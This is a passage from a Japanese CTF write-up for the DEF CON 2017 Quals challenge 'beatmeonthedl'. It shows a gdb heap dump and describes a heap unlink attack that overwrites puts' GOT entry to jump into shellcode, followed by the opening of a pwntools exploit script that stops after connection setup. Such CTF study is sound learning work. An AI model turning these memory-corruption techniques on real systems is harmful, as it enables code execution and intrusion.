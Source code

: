 その後 buffer4 の開放を行ったところ, chunk4 と chunk5 の結合処理 (unlink) が走り, `puts` の GOT を chunk2 のアドレスに書き換えることができた.

    gdb-peda$ x/50gx 0x00db4000
    0xdb4000:	0x0000000000000000	0x0000000000000023
    0xdb4010:	0x0a70616e73657761	0x0000000000000000
    0xdb4020:	0x0000000000000000	0x0000000000000043 <- chunk1
    0xdb4030:	0x0030726566667562	0x0000000000000000 <- buffer0
    0xdb4040:	0x0000000000000000	0x0000000000000000
    0xdb4050:	0x0000000000000000	0x0000000000000000
    0xdb4060:	0x0000000000000000	0x0000000000000041 <- chunk2
    0xdb4070:	0x0000000000609940	0x0000000000609b88
    0xdb4080:	0x0000000000000000	0x0000000000000000
    0xdb4090:	0x0000000000000000	0x0000000000000000
    0xdb40a0:	0x0000000000000040	0x0000000000000042 <- chunk3
    0xdb40b0:	0x4141414141414141	0x4141414141414141 <- buffer2
    0xdb40c0:	0x4141414141414141	0x4141414141414141
    0xdb40d0:	0x4141414141414141	0x4141414141414141
    0xdb40e0:	0x4141414141414141	0x0000000000000ed1 <- chunk4
    0xdb40f0:	0x0000000000609940	0x0000000000db4060
    0xdb4100:	0x0000000000000000	0x0000000000000000
    0xdb4110:	0x0000000000000000	0x0000000000000000
    0xdb4120:	0x0000000000000040	0x0000000000000042 <- chunk5 (unlinked)
    0xdb4130:	0x0034726566667562	0x0000000000000000
    0xdb4140:	0x0000000000000000	0x0000000000000000
    0xdb4150:	0x0000000000000000	0x0000000000000000
    0xdb4160:	0x0000000000000000	0x0000000000000e51
    0xdb4170:	0x0000000000000000	0x0000000000000000
    0xdb4180:	0x0000000000000000	0x0000000000000000
    gdb-peda$ x/8gx 0x0000000000609940
    0x609940:	0x00007f6fb21795f0	0x0000000000400ab6
    0x609950:	0x0000000000400ac6	0x0000000000db4060 <- puts_got
    0x609960:	0x00007f6fb1e41d10	0x0000000000400af6
    0x609970:	0x00007f6fb1e10e00	0x00007f6fb1e459c0

このあとすぐにメニューを表示処理で `puts` が呼ばれるので, の開放を行う前に buffer0 を通して shellcode 書き込んでおけばよさそう. ただし, unlink attack 後は chunk2 の `fd` や `bk` が書き換わってしまうので, メインの shellcode は buffer0 に書き込み, chunk2 の先頭 (glibc malloc でいう `prev_size` に相当する部分) に `jmp -0x30` を置いて shellcode の先頭に飛ぶようにした.

実際に作成したスクリプトと実行結果は次の通り.  
攻撃では使わなかったが, 確保したバッファをリストアップする際に `printf` の `%s` を使っているのを利用して chunk4 の `bk` のリークなども行なっている.

```python
#!/usr/bin/env python2

# DEF CON 2017 Quals : beatmeonthedl

from pwn import *
import sys

username = 'mcfly'
password = 'awesnap'

buffer_size = 0x38

# [0x0040123c]> f~reloc.puts
# 0x00609958 8 reloc.puts_88
addr_puts_got = 0x00609958

context(os='linux', arch='amd64')

if 'remote' in sys.argv:
    r = remote('beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me', 6969)
else:
    r = process('./beatmeonthedl')

```

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)